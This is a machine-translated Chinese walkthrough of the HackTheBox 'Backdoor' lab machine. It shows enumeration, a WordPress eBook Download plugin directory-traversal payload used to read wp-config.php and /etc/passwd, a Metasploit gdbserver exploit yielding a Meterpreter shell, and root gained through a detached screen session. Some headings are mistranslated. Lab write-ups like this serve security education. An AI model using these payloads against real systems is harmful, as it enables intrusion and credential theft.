







# 黑客盒子的后门——详细演练

> 原文：<https://infosecwriteups.com/backdoor-from-hackthebox-detailed-walkthrough-93d238979397?source=collection_archive---------1----------------------->

## 展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子的后门

后门是 HackTheBox 上的一个简单的机器。我们首先找到一个带有易受攻击插件的基本 WordPress 站点。这允许目录遍历和本地文件包含，我们用它来泄漏数据和监视进程。由此我们发现了 gdbserver 的一个易受攻击的版本，我们使用 Meterpreter 来利用该版本获得一个反向 shell。从那里，我们找到一个分离的屏幕会话，我们连接到并获得根。

所需的技能是网络和操作系统枚举。学到的技能是寻找和利用易受攻击的软件。

[](https://www.hackthebox.com/home/machines/profile/416) [## 后门——黑盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/416) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



后门程序的 Nmap 扫描

最初找到三个端口。1337 看起来很有趣，因为它有点不寻常，但是让我们从端口 80 上的 Apache 开始。首先将服务器 IP 添加到我的主机文件中:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# echo "10.10.11.125 backdoor.htb" >> /etc/hosts
```

# wordpress 软件

我们找到一个基本的 WordPress 站点:



后门网站

这里没有内容，让我们查找子文件夹:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# gobuster dir -u http://backdoor.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt           
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://backdoor.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/08 22:13:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://backdoor.htb/wp-content/]
/wp-admin             (Status: 301) [Size: 315] [--> http://backdoor.htb/wp-admin/]  
/wp-includes          (Status: 301) [Size: 318] [--> http://backdoor.htb/wp-includes/]
/server-status        (Status: 403) [Size: 277]
===============================================================
2021/12/08 22:15:21 Finished
===============================================================
```

在这些子文件夹中，有趣的是 wp-content，让我们来看看这个:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# gobuster dir -u http://backdoor.htb/wp-content -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://backdoor.htb/wp-content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/08 22:16:12 Starting gobuster in directory enumeration mode
===============================================================
/plugins              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/plugins/]
/themes               (Status: 301) [Size: 324] [--> http://backdoor.htb/wp-content/themes/] 
/uploads              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/uploads/]
/upgrade              (Status: 301) [Size: 325] [--> http://backdoor.htb/wp-content/upgrade/]
===============================================================
2021/12/08 22:17:50 Finished
===============================================================
```

在插件中，我们发现:



电子书-下载插件文件夹

# Searchsploit

Searchsploit 给了我们一些有用的东西:



搜索漏洞检查

让我们来看看:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# searchsploit -m php/webapps/39575.txt
  Exploit: WordPress Plugin eBook Download 1.1 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/39575
     Path: /usr/share/exploitdb/exploits/php/webapps/39575.txt
File Type: ASCII text

Copied to: /root/39575.txt

┌──(root💀kali)-[~/htb/backdoor]
└─# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
```

# 利用插件

所以我们有简单的目录遍历和本地文件包含(LFI)漏洞。让我们试试上面给出的例子:



使用 curl 读取远程文件

这很有效，我们来看看 passwd:

```
┌──(root💀kali)-[~/htb/backdoor]
└─# curl [http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd](http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd)root:x:0:0:root:/root:/bin/bash
<SNIP>
user:x:1000:1000:user:/home/user:/bin/bash
```

# 监视进程

这也是可行的，我们只将 root 和 user 视为我们可能感兴趣的帐户。

在之前的 nmap 扫描中，我们看到端口 1337 是开放的。有了读取任意文件的能力，我们可以检查/proc 并查看机器上正在运行什么进程。这个解释了更多关于/proc 伪文件系统如何工作的内容。

我使用了一个简单的循环来递增地检查/处理:



使用 curl 监视进程

我们发现两件有趣的事情。1337 端口运行的是 gdbserver，这是我们立足之路。我们还可以看到 screen 正在运行一个分离的会话，我们稍后将回到这一点。

# 水表读数器

快速搜索 gdb 漏洞发现了[这篇](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/gdb/gdb_server_exec)关于 Metasploit 方法的文章。让我们试试:



使用仪表指示器开发箱子

我们已经连接了一个会话，现在启动一个 shell:

```
meterpreter > shell
Process 2402 created.
Channel 1 created.
python3 -c "import pty;pty.spawn('/bin/bash')"
user@Backdoor:~$
```

# 用户标志

外壳稳定后，让我们抓住用户标志:

```
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ ls -l
-rw-r----- 1 root user 33 Dec  9 23:17 user.txt

user@Backdoor:~$ cat user.txt
<HIDDEN>
```

# 权限提升

通往根的道路很简单，但前提是你要早点注意。当我们远程扫描机器上运行的进程时，我们看到了以下内容:

```
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

这表明 screen 正在运行一个名为 root 的分离会话。所以可以很有把握地假设，我们只需要连接到那个屏幕就可以得到我们的根 shell。

[这个](https://linux.die.net/man/1/screen)解释了什么是屏幕及其使用的参数，这些是我们可以看到正在使用的参数:

```
-d -m Start screen in "detached" mode. This creates a new session but doesn't attach to it. This is useful for system startup scripts.
-S sessionname
```

这很好也很简单:

```
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
Please set a terminal type.
```

请设置终端，然后再试一次:

```
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root
root@Backdoor:~#
```

# 根标志

好了，让我们抓住根旗:

```
root@Backdoor:~# id
uid=0(root) gid=0(root) groups=0(root)

root@Backdoor:~# ls -l
-rw-r--r-- 1 root root 33 Dec  9 23:17 root.txt

root@Backdoor:~# cat root.txt
<HIDDEN>
```

完成了。下次见。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 4 月 26 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-backdoor)*。*